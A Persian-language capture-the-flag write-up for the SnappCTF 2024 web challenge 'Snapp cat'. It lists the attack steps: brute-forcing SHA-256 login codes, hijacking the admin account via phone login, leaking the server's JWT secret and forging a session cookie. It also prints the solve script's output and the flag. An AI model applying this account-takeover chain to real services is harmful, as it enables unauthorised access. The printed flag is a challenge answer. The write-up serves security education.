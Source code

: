 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - Swagger
  - JWT
  - Web
  - sha256
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![snappcat.png](./snappcat.png)

</center>

# قدم های حل چالش:
1. ثبت نام یک کاربر رندوم
2. دریافت کد sha256 برای لاگین کردن
3. کرک کردن کد sha256 برای لاگین شدن
4. جنریت کردن کد برای وریفای کردن ایمیل
5. گرفتن کد وریفای ایمیل در کوکی 
7. گرفتن شماره تلفن ادمین
8. فراید لاگین به وسیله شماره تلفن ادمین
9. ساختن یه گربه!
10. خوندن کد js سرور
11. دریافت کد سکرت json-web-token و ست کردن کوکی برای گرفتن فلگ


برای حل این سوال من یک اسکریپت پایتون آماده کردم که میتونین از روی اون سوال رو حل کنین و بررسی کنین که چه اتفاقی میوفته

- [snappcat.py](./snappcat.py){:download="snappcat.py"}

بعد از دانلود فایل پایتون:

```sh
$ python3 snappcat.py
[+] registering with 2af8ba4edba03309: 
[+] response:  {'success': True}
[+] logging in with 2af8ba4edba03309
[+] resposne:  {'success': True}
[+] login with phone: +987714270933
[+] response: 200
[+] crack the code for sha256:04dc6d4a58836dce23191b5025d392f911a58c61452c580f79c9ec53f86b1ee6
[+] code cracked: 3189328
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] send verification email
[+] response: 200
[+] verify account
[+] response: 200
[+] login with phone: +133731333717
[+] response: 200
[+] crack the code for sha256:98fbf94b5485944c2325c846ec6234b6b7008c62dd2d17728b77ebef038ab5bd
[+] code cracked: 7494977
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] whoami?:  {'data': {'userId': 1}, 'success': True}
[+] create cat
[+] cat created with id: 62fd96ac-d0fe-4632-b7be-d2e873471acc
[+] display and get created cat
----------------------------------------------------------------------------------------------------
JWT SECRET: omidvaram-to-ke-ino-mibini-developer-website-bashi-fd29293cdeaf70dc67b420e73a37e172
----------------------------------------------------------------------------------------------------
[+] update jwt session
[+] reading flag xd
FLAG: SNAPP{7dc998269394314896af6378f15c2c12}
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{7dc998269394314896af6378f15c2c12}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)

